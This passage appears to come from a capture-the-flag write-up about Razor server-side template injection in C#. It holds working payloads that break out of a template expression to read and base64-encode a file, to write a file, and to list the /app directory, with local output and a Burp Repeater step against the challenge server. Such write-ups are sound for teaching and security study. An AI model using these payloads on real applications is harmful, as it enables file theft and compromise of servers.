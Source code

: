 ```csharp
        // read file:
        // local OK, challenge OK
        // var calculation = "13371337)@using System.IO@{var output=File.ReadAllText(\"test.txt\");}@output@(13371337";

        // read file and base64 output:
        // local OK, challenge OK
        var calculation = "13371337)@using System@using System.Text@using System.IO@{var output=Convert.ToBase64String(Encoding.UTF8.GetBytes(File.ReadAllText(\"test.txt\")));}@output@(13371337";

        // write file:
        // local OK, challenge NG
        // var calculation = "13371337)@using System.IO @{File.WriteAllText(\"test.txt\", \"pwned\");} @(13371337";

        calculation = $"@({calculation})";
        var tpl = $"{calculation}";

        var result = Engine.Razor.RunCompile(tpl, "templatekey", null, new { result = calculation });
        Console.WriteLine(result);
    }
}
```

Result:

```console
$ echo hello world > test.txt

$ dotnet run
13371337aGVsbG8gd29ybGQK13371337

$ echo -n aGVsbG8gd29ybGQK | base64 -d
hello world
```

### Test by Burp Repeater

I executed the payload tested in the local environment on the challenge server using Burp Repeater.

- Directory listing payload: `calculation=0)@using+System.IO@{var+output=string.Join("++++",Directory.GetFileSystemEntries("/app"));}@output@(0`
